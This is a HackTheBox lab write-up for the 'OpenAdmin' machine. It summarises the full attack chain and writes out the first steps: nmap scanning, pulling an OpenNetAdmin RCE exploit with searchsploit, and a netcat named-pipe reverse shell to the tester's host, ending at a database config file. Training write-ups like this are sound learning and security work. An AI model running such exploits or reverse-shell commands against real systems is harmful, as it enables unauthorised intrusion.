 ```yaml
---
title: "OpenAdmin HTB"
date: 2020-01-06T20:55:28-05:00
draft: true
---
```


OpenAdmin is an "Easy" machine on HackTheBox. I say easy because this box will certainly be challenging for a beginner, but it is a good learning experience.

## Host Information:
IP: 10.10.10.171
Hostname: openadmin 
External Ports: 22, 80

## Summary:

OpenNetAdmin application on port 80 under /ona/login.php is vulnerable to a publically available RCE. Exploitation permits she'll access as the www-data user. Credential reuse vulnerability between the mysql database permits for secure shell access over port 22 as the jimmy user. The jimmy user is able to access a local webserver that can be accessed via portforwarding, exposing the web application to session cookie tampering. This cookie tampering leaks the secure shell private key of the joanna user. Authenticating as the joanna user over SSH allows for privilege escalation via sudo nano. 

## Attack Path
================

**Service Enumeration**

nmap --open -p- -v -n 10.10.10.171 | tee nnap-open-ports

Clicking through the various web applications, eventually allows us to navigate to /music -> login revealing an administrative portal at /ona. 
```bash
searchsploit opennetadmin
searchsploit -m 47772
```

**Initial Foothold**
```bash
chmod +x 47772.sh
./47772.sh http://10.10.10.171/ona/login.php
$ mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.2 443 1>/tmp/backpipe
```
**www-data Enumeration**  

whoami
www-data

cat /opt/ona/.gitignore  
cd www/local  
cd config  
cat database_settings.inc.php  
